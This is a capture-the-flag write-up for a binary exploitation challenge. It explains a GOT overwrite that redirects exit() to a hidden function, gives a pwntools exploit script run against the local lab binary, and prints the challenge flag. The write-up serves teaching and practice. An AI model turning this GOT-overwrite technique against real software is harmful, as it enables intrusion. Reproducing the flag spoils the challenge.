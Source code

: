 # 🔑 Write-Up

Using ida we see that the main function does nothing. But we noticed `give_the_man_a_guitar()` function. What we can do is ovveride the pointer to `exit()` to point to  `give_the_man_a_guitar()` function, so that when `exit(0)` is called at the end, it actually calls the other function.

```python
from pwn import *

elf = ELF('./vuln')

r = process('./vuln')
r.sendline(b'y')
r.sendline(str(elf.functions['give_the_man_a_guitar'].address))
r.sendline(str(elf.got['exit']))
r.interactive()
```

P.S.: once you run this script, the `temp` file'll get deleted, so if you want to re-try the challenge, you have to restore it.

### 🚩 Flag 

```plain
SPRITZ{St4nDndTTM4L3}
```

[small reward, enjoy](https://www.youtube.com/watch?v=zB_q1I0leoI)